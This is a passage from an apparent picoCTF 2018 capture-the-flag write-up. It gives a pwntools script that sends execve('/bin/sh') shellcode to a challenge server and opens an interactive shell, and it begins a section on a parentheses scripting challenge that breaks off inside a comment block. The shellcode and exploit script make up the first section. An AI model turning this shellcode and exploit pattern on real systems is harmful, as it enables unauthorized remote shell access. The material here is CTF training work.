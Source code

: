```python
#!/usr/bin/python2

from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode

print payload
#p = process('./gps')
p = remote('2018shell1.picoctf.com', 49351)
print p.recvuntil('Current position: ')
stk = p.recv(14)

# We'll use this address as input to our 'rand` application to find potential locations of our buffer.
print stk

p.recvuntil('What\'s your plan?')
p.sendline(payload)
p.interactive()
p.close()
```

## script_me
`script_me` was a fun scripting challenge involving parentheses and some variations on combine and absorb operations. I used `pwndbg` for this because it simplified the process of interacting with the server dramatically.

```python
#!/usr/bin/python2

from pwn import *

#
# $ python get.py
# [+] Opening connection to 2018shell1.picoctf.com on port 22973: Done
# (()) + (()(())) 
# (()(())) + (()()) + () 
# (((()())()())()) + (()()()(())()()) + ()() + ()()() + ()()() 
# (()()()()()()()()) + ()()() + (()()()()()()()()) + (((()())()())()) + (()()()()()()()()) + (()(())) + (()(((()()())()())()())) + ()()() + ()()() + (()()()) 
```